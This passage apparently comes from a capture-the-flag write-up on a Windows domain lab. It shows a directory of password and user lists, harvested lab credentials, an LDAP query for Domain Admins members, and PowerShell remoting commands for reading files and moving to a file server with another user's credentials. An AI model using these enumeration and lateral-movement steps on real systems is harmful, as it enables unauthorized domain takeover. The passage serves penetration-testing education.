 ```
PS C:\Users\BTables> dir


    Directory: C:\Users\BTables


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        10/4/2017  10:12 PM                Desktop
d-r---        10/9/2017   8:22 PM                Documents
d-r---        7/16/2016   2:18 PM                Downloads
d-r---        7/16/2016   2:18 PM                Favorites
d-r---        7/16/2016   2:18 PM                Links
d-r---        7/16/2016   2:18 PM                Music
d-r---        7/16/2016   2:18 PM                Pictures
d-----        7/16/2016   2:18 PM                Saved Games
d-r---        7/16/2016   2:18 PM                Videos
-a----       10/12/2017   8:09 PM           5502 check-auth.ps1
-a----       10/12/2017   7:48 PM          45011 domain_users.csv
-a----       10/12/2017   7:21 PM          21002 file.txt
-a----       10/12/2017   7:21 PM          21002 file2.txt
-a----       10/12/2017   7:48 PM          45011 merged.txt
-a----       10/12/2017   7:43 PM          90002 merged2.txt
-a----       10/12/2017   7:39 PM          21002 Output.txt
-a----       10/12/2017   7:23 PM          75002 pass.txt
-a----       10/12/2017   7:23 PM          75002 pass2.txt
-a----       10/12/2017   9:16 PM          21000 result.txt
-a----       10/12/2017   9:04 PM             42 test.csv
-a----       10/12/2017   7:14 PM          18002 users.txt
-a----       10/12/2017   7:22 PM              0 wordlist.txt
```
_contents of "domain_users.csv"_
```
...[snip]...
a7e6,@fulcrum_e9f86a021507_$
9cea,@fulcrum_1eee5eabb089_$
9e92,@fulcrum_efecb22c5b82_$
8d25,@fulcrum_70e0e02bd594_$
9923,@fulcrum_17f672dfcc78_$
b0b6,@fulcrum_7a5f2af5237e_$
9e2a,@fulcrum_acd5008a3f9d_$
a700,@fulcrum_47ff4e46a43f_$
b473,@fulcrum_110bf7e71ecd_$
984a,@fulcrum_d254c73f8dab_$
```

I forgot to mention, but from our either enumeration we could have discovered what users are in the domain admins by querying ldap. I forgot to gather the exact query I used, but to give an baseline idea of what the ldap query  structure would have looked like: `(&(objectCategory=user)(memberOf=CN=Domain Admins,CN=People,DC=fulcrum,dc=local))`, but either way, by bruteforcing the credentials with a script, or querying  LDAP you would discover that the user `932a` is in the domain administrators group. 


[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserName
[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserDomain
[192.168.30.130]: PS C:\Users\WebUser\Documents> dir
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\user.txt
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\CheckFileServer.ps1
[192.168.30.130]: PS C:\inetpub\wwwroot> dir
[192.168.30.130]: PS C:\inetpub\wwwroot> type web.config
[192.168.30.130]: PS C:\inetpub\wwwroot>
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enter-PSSession -Computername file.fulcrum.local -Credential fulcrum.local\btables
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enable-WSManCredSSP –Role Client –DelegateComputer spoke